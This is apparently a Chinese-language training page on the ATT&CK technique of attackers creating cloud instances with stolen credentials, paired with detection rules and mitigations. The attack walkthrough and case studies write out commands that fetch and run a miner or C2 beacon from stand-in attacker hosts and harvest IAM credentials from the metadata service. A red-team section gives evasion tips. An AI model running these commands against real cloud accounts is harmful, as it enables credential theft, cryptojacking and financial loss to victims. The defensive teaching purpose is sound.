


# 创建云实例 (T1578.002)

## 一句话通俗理解

> **攻击者用偷来的云账号凭据启动新虚拟机——挖矿、C2、跳板，云厂商会照单全收并给受害者寄账单**

## 30秒速查卡

| 维度 | 你需要知道的 |
|------|-------------|
| 这是什么？ | 攻击者使用云 API 创建新的 EC2/Compute Engine/VM 实例，用于挖矿、C2 节点或跳板 |
| 为什么危险？ | 攻击者利用受害者的云配额和账单启动任意数量实例，几小时内可造成数万美元损失 |
| 谁需要关心？ | 云财务管理（FinOps）、云安全管理员、SOC 分析师 |
| 你的第一步防御 | 监控所有 `RunInstances`/`create instances`/`vm create` API 调用，对带 user-data 的实例告警 |
| 如果只做一件事 | 配置云预算告警，任何单日费用增长超过 50% 立即通知安全团队 |

## 难度等级

⭐⭐⭐ 高级 - 需要理解云实例启动流程、IAM 角色绑定和 user-data 注入

## 前置知识检查

**读这个文件需要什么？**

- [x] 云服务商的实例模型：AWS EC2、GCP Compute Engine、Azure VM
- [x] 实例启动参数：AMI/镜像、实例规格、网络配置、user-data
- [x] IAM 角色绑定：实例启动时可绑定 IAM 角色，授予访问其他云资源的权限
- [x] 云成本模型：按小时计费、预留实例、spot 实例

## 技术描述

**创建云实例**（T1578.002）是 **修改云计算基础设施**（T1578）的一个具体变体，属于 **防御削弱** 阶段的攻击技术。

> 📚 **打个比方**：就像攻击者拿着偷来的信用卡，在酒店开了十间总统套房用来开派对——账单寄给受害者，酒店也不会怀疑。云厂商会照常启动实例并给受害者账户计费，攻击者获得算力、网络出口和持久化的 C2 节点。

### 具体怎么理解？

攻击者通过云 API 创建新的虚拟机实例，目的通常有三种：

1. **加密货币挖矿**：启动 GPU 实例（如 AWS p3.16xlarge、GCP v100）挖掘门罗币或以太坊
2. **C2 节点**：在云中部署 Cobalt Strike、Sliver 等 C2 服务器，云 IP 通常在白名单中
3. **跳板实例**：通过新实例访问受害者的内部 VPC 网络

与本地服务器不同，云实例可以通过 `--user-data` 字段在启动时执行任意命令（如自动下载挖矿程序），无需在磁盘留痕。攻击者还会给新实例绑定高权限 IAM 角色，使其能访问受害者的 S3 存储桶、数据库等资源。

### 为什么有效？

这种技术之所以有效，是因为：
1. **快速弹性**：几分钟内可启动数百个实例，云厂商不会阻拦
2. **user-data 持久化**：通过启动脚本注入恶意代码，无需修改镜像
3. **角色绑定提权**：实例绑定的 IAM 角色可以让攻击者访问其他云资源
4. **云 IP 信任**：云厂商 IP 段通常在企业白名单中
5. **计费延迟**：账单按小时累计，攻击者可在被发现前造成重大损失

**过渡段：** 不要误以为云厂商会自动检测挖矿——AWS/GCP/Azure 不会主动检查你启动的实例在跑什么。唯一能阻止的是你自己的监控和配额限制。

## 真实攻击流程

### 典型场景

攻击者在 **防御削弱** 阶段使用 创建云实例 技术，以下是典型的攻击步骤：



**步骤详解：**

1. **获取云访问凭据** - 通过凭据泄露、IMDS SSRF、供应链攻击获得 IAM 凭据
2. **选择实例规格和 AMI** - 选择 GPU 实例用于挖矿或普通实例用于 C2
3. **准备 user-data 启动脚本** - 编写自动部署挖矿或 C2 的脚本
4. **启动实例** - 使用 `aws ec2 run-instances` 创建实例
5. **实例自动执行 user-data** - 启动时自动下载和执行恶意程序
6. **绑定高权限 IAM 角色** - 让实例能访问其他云资源
7. **持久化挖矿或 C2** - 实例运行后持续为攻击者服务

## 攻击流程

### 典型攻击流程

获取云访问凭据 --> 选择实例规格和 AMI --> 准备 user-data 启动脚本 --> 启动实例 --> 自动部署挖矿或 C2 --> 绑定 IAM 角色访问其他资源



**步骤详解：**

1. **获取云访问凭据** - 攻击者通过多种途径获取云凭据
   - 通俗描述：就像攻击者偷到了云仓库的钥匙
   - 技术细节：通过 IMDSv1 SSRF 获取 IAM 角色凭据；扫描 GitHub 公开仓库的 AK/SK；通过钓鱼获取控制台凭据；利用配置不当的 S3 桶获取备份的凭据文件
   - 常用工具：curl、GitRob、TruffleHog、Pacu

2. **选择实例规格和 AMI** - 攻击者选择适合挖矿或 C2 的实例规格
   - 通俗描述：就像小偷根据目标选择开什么车——挖矿要大卡车，C2 要隐蔽的轿车
   - 技术细节：挖矿使用 GPU 实例（`p3.16xlarge`、`g4dn.12xlarge`）或高 CPU 实例（`c5.18xlarge`）；C2 使用小型实例（`t3.micro`）以避免注意；AMI 选择官方 Ubuntu 22.04 LTS（`ami-0c101f26f315fa4c1`）
   - 常用工具：aws-cli、AWS Console

3. **准备 user-data 启动脚本** - 编写在实例启动时自动执行的脚本
   - 通俗描述：就像给快递员一份"打开包裹后立即执行"的指令
   - 技术细节：user-data 是 Base64 编码的脚本，在实例首次启动时由 cloud-init 执行；典型挖矿脚本包括下载 XMRig、配置矿池地址、启动挖矿；C2 脚本包括下载 Cobalt Strike beacon、配置 C2 服务器、启动 beacon
   - 常用工具：Bash 脚本、Python、cloud-init

4. **启动新实例** - 使用云 API 创建实例
   - 通俗描述：就像用偷来的信用卡在酒店开房间
   - 技术细节：执行 `aws ec2 run-instances --image-id ami-xxx --instance-type p3.16xlarge --count 10 --user-data file://miner.sh --iam-instance-profile Name=admin-role --security-group-ids sg-xxx`；批量启动 10 个 GPU 实例挖矿；`--iam-instance-profile` 绑定高权限角色
   - 常用工具：aws-cli、Terraform、CloudFormation

5. **实例自动执行 user-data 部署挖矿/C2** - cloud-init 在启动时自动执行脚本
   - 通俗描述：实例一启动就自动开始挖矿或连接 C2
   - 技术细节：cloud-init 在实例首次启动时执行 user-data 脚本；典型流程为 `wget https://attacker.com/xmrig -O /tmp/xmrig && chmod +x /tmp/xmrig && /tmp/xmrig -o pool.minexmr.com:4444 -u wallet -p x`；C2 部署为 `curl https://c2.attacker.com/beacon -o /tmp/b && chmod +x /tmp/b && /tmp/b`
   - 常用工具：XMRig、Cobalt Strike、Sliver

6. **绑定高权限 IAM 角色** - 让实例能访问其他云资源
   - 通俗描述：给新员工一张能进所有房间的总卡
   - 技术细节：通过 `aws ec2 associate-iam-instance-profile --instance-id i-xxx --iam-instance-profile Name=admin-role` 绑定 IAM 角色；角色策略包含 `s3:*`、`ec2:*`、`rds:*` 等高权限；实例内的应用可通过 IMDS 获取临时凭据访问其他资源
   - 常用工具：aws-cli、IAM Console

## 真实案例

### 案例1：TeamTNT 加密货币挖矿攻击（2021-2024）

- **时间**：2021年至今
- **目标**：全球配置不当的云环境
- **攻击组织**：TeamTNT，疑似越南背景
- **手法**：TeamTNT 主要针对暴露的 Docker API（2375）、Kubernetes API 和 Redis 服务。一旦进入容器，执行 `curl http://169.254.169.254/latest/meta-data/iam/security-credentials/` 获取宿主机 IAM 凭据。然后用 `aws ec2 run-instances --image-id ami-xxx --instance-type t3.micro --user-data file://miner.sh` 启动挖矿实例。user-data 脚本会自动下载 XMRig、配置矿池、启动挖矿，并设置 cron 持久化。被检测时使用 `aws ec2 terminate-instances --instance-ids i-xxx` 销毁证据实例，再创建新实例继续挖矿
- **影响**：造成数百万美元云账单损失
- **参考链接**：https://unit42.paloaltonetworks.com/teamtnt/

### 案例2： Scattered Spider 创建后门实例（2023）

- **时间**：2023年9月
- **目标**：MGM Resorts
- **攻击组织**：Scattered Spider
- **手法**：Scattered Spider 通过钓鱼获取 Okta SSO 凭据后进入 Azure 环境。使用 `az vm create --resource-group prod-rg --name backdoor-vm --image UbuntuLTS --admin-username attacker --ssh-key-value <ssh-key> --size Standard_D4s_v3` 创建后门 VM。然后通过 `az role assignment create --assignee <principal-id> --role "Owner" --scope <subscription-id>` 给后门 VM 绑定订阅级别的 Owner 角色。通过这个后门 VM，他们访问了 MGM 的内部网络，部署勒索软件
- **影响**：MGM 损失超过 1 亿美元
- **参考链接**：https://www.cisa.gov/news-events/cybersecurity-advisories/aa23-320a

## 红队视角

> ⚠️ **免责声明**：以下内容仅用于合法的安全测试、渗透测试和教育目的。未经授权对他人系统进行测试是违法行为。

### 实战技巧

1. **小规格实例避免注意**：使用 `t3.micro` 启动 C2 节点，避免触发 GPU 实例配额告警
2. **user-data 持久化**：通过 user-data 注入比修改镜像更隐蔽
3. **绑定高权限角色**：`--iam-instance-profile Name=admin-role` 让实例能访问所有资源
4. **选择冷门区域**：在 `us-east-2` 或 `ap-northeast-2` 创建实例，避开主区域监控
5. **spot 实例降低成本**：使用 spot 实例降低被发现概率（但会被随时中断）

### 常用工具

| 工具名称 | 用途 | 平台 | 链接 |
| -------- | ---- | ---- | ---- |
| aws-cli | AWS 命令行 | 跨平台 | [aws-cli](https://aws.amazon.com/cli/) |
| az | Azure 命令行 | 跨平台 | [Azure CLI](https://docs.microsoft.com/cli/azure/) |
| gcloud | GCP 命令行 | 跨平台 | [gcloud CLI](https://cloud.google.com/sdk/gcloud) |
| Terraform | 基础设施即代码 | 跨平台 | [Terraform](https://www.terraform.io/) |
| XMRig | 加密货币挖矿 | 跨平台 | [XMRig](https://xmrig.com/) |

### 注意事项

- `RunInstances` 操作会立即记录在 CloudTrail，无法清除
- GPU 实例有配额限制，新账户配额较低
- 实例启动后会立即产生费用，需要快速使用
- GuardDuty 会检测 `UnauthorizedAccess:EC2/SSHBruteForce` 等异常

## 蓝队视角

### 检测要点

1. **监控 `RunInstances` API**：关注非工作时间、新区域的实例创建
2. **user-data 内容监控**：检查启动脚本是否包含可疑命令
3. **IAM 角色绑定监控**：新实例绑定高权限角色立即告警
4. **GPU 实例配额告警**：GPU 实例请求量异常增长
5. **预算告警**：日费用增长超过阈值立即通知

### 监控建议

- 在 CloudTrail 中配置 `RunInstances` 事件的实时告警
- 部署 AWS Config 规则 `ec2-instance-detailed-monitoring-enabled`
- 使用 AWS Budgets 设置日预算告警
- 在 Azure 中配置 Activity Log Alert 监控 `Microsoft.Compute/virtualMachines/write`
- 使用 CSPM 工具检测实例配置合规性

## 避坑指南

只监控控制台登录而不监控 API 调用——攻击者通过 CLI/SDK 创建实例不会触发控制台登录日志。

## 检测建议

### 检测思路

检测 创建云实例 的关键是识别异常的实例创建模式。以下是三个层面的检测方法：

### 网络层检测

**方法**：监控新创建实例的出站流量

```bash
# 检测新实例连接挖矿池（端口3333/5555/7777）
aws ec2 describe-network-interfaces --query 'NetworkInterfaces[*].{ID:NetworkInterfaceId,IP:PrivateIpAddress}'
# 在 VPC Flow Logs 中查找连接矿池IP的流量
```

### 主机层检测

**AWS CloudTrail 事件**：
- eventName: RunInstances - 实例创建
- eventName: AssociateIamInstanceProfile - IAM 角色绑定

```bash
# 查找最近24小时的实例创建事件
aws cloudtrail lookup-events --lookup-attributes AttributeKey=EventName,AttributeValue=RunInstances --start-time $(date -d '1 day ago' +%Y-%m-%dT%H:%M:%S) --max-results 50
```

### 应用层检测

**用人话说：** 攻击者用 `aws ec2 run-instances --user-data file://miner.sh` 启动挖矿实例，user-data 在启动时自动执行挖矿脚本。监控 RunInstances 事件中的 user-data 字段，发现包含 wget/curl/xmrig 等关键词立即告警。

**Sigma 规则示例**：

```yaml
title: 检测带可疑user-data的EC2实例创建
status: experimental
description: 攻击者通过user-data字段在实例启动时执行恶意脚本
logsource:
    product: aws
    service: cloudtrail
detection:
    selection:
        eventName: RunInstances
    filter_userdata:
        requestParameters.userData|contains:
            - 'xmrig'
            - 'miner'
            - 'wget http'
            - 'curl http'
            - 'bash -i'
            - 'nc -e'
            - 'cobaltstrike'
            - '/beacon'
    condition: selection and filter_userdata
fields:
    - eventName
    - userIdentity.arn
    - sourceIPAddress
    - requestParameters.instanceType
falsepositives:
    - 合法的自动化部署脚本
level: high
tags:
    - attack.t1578.002
    - attack.t1059
    - attack.t1496
```

```yaml
title: 检测GPU实例批量创建（疑似挖矿）
status: experimental
description: 攻击者批量启动GPU实例用于加密货币挖矿
logsource:
    product: aws
    service: cloudtrail
detection:
    selection:
        eventName: RunInstances
        requestParameters.instanceType|contains:
            - 'p3.'
            - 'p4.'
            - 'g4dn.'
            - 'g5.'
    condition: selection
fields:
    - requestParameters.instanceType
    - requestParameters.count
falsepositives:
    - 合法的 ML/AI 训练任务
level: medium
tags:
    - attack.t1578.002
    - attack.t1496
```

## 缓解措施

### 优先级1：关键措施

**限制实例创建权限**：仅授予特定 IAM 角色实例创建权限

```bash
# IAM 策略示例：禁止创建带user-data的实例
{
    "Version": "2012-10-17",
    "Statement": [{
        "Effect": "Deny",
        "Action": "ec2:RunInstances",
        "Resource": "*",
        "Condition": {
            "Null": {
                "ec2:UserData": false
            }
        }
    }]
}
```

### 优先级2：重要措施

**设置实例配额**：限制账户内最大实例数量，防止批量创建

```bash
# 申请提高配额限制为合理值
aws service-quotas request-service-quota-increase --service-code ec2 --quota-code L-1216C47A --desired-value 20
```

### 优先级3：建议措施

**配置预算告警**：日费用超过阈值立即通知

```bash
# 设置日预算告警
aws budgets create-budget --account-id 123456789012 --budget file://budget.json --notifications-with-subscribers file://notifications.json
```

## 动手实验

> ⚠️ **所有实验必须在隔离的实验室环境中进行**

### 实验1：理解实例创建与 user-data（初级）

**目标**：理解 创建云实例 的工作原理

**步骤**：
1. 在自己的 AWS 实验账户中创建一个简单的 user-data 脚本
2. 使用 `aws ec2 run-instances` 启动实例
3. 连接到实例查看 user-data 执行结果
4. 在 CloudTrail 中查看 RunInstances 事件

**学习要点**：理解 user-data 注入机制

### 实验2：实际操作（中级）

**目标**：掌握 创建云实例 的实际使用方法

**步骤**：
1. 使用 Pacu 模拟攻击者枚举环境
2. 创建带恶意 user-data 的实例
3. 配置 CloudTrail 告警检测可疑创建
4. 测试 IAM 角色绑定的影响

**学习要点**：掌握攻击链全流程

### 实验3：防御验证（高级）

**目标**：验证检测规则的有效性

**步骤**：
1. 部署 AWS Config 规则检测实例配置
2. 配置 EventBridge 自动响应可疑实例创建
3. 测试预算告警的响应时间
4. 验证 SCP 策略阻止未授权实例创建

**学习要点**：理解攻防对抗的实际效果

## 术语解释

| 术语 | 通俗解释 |
|------|---------|
| **EC2** | Amazon Elastic Compute Cloud，AWS 的虚拟机服务 |
| **user-data** | 云实例启动时执行的脚本，可用于初始化或后门部署 |
| **AMI** | Amazon Machine Image，AWS 的虚拟机镜像 |
| **IAM Role** | 云身份和访问管理角色，可绑定到实例上授予权限 |
| **XMRig** | 流行的门罗币挖矿程序 |
| **Spot 实例** | AWS 的竞价实例，价格低但可能被中断 |
| **CloudTrail** | AWS 的 API 审计日志服务 |

## 被引用情况

以下父技术文档引用了本子技术：

- [T1578 - 修改云计算基础设施](../T1578-Modify-Cloud-Compute-Infrastructure.md)

## 参考资料

### 官方文档

- [MITRE ATT&CK - Create Cloud Instance (T1578.002)](https://attack.mitre.org/techniques/T1578/002/)
- [MITRE ATT&CK - Modify Cloud Compute Infrastructure (T1578)](https://attack.mitre.org/techniques/T1578/)
- [AWS EC2 User Data](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/user-data.html)

### 安全报告

- [Palo Alto Unit42 TeamTNT 分析](https://unit42.paloaltonetworks.com/teamtnt/) - TeamTNT 挖矿团伙
- [CISA Scattered Spider 通告](https://www.cisa.gov/news-events/cybersecurity-advisories/aa23-320a) - Scattered Spider 攻击

### 工具与资源

- [Pacu](https://github.com/RhinoSecurityLabs/pacu) - AWS 攻击框架
- [CloudGoat](https://github.com/RhinoSecurityLabs/cloudgoat) - AWS 训练环境
- [Atomic Red Team](https://github.com/redcanaryco/atomic-red-team) - 检测规则测试
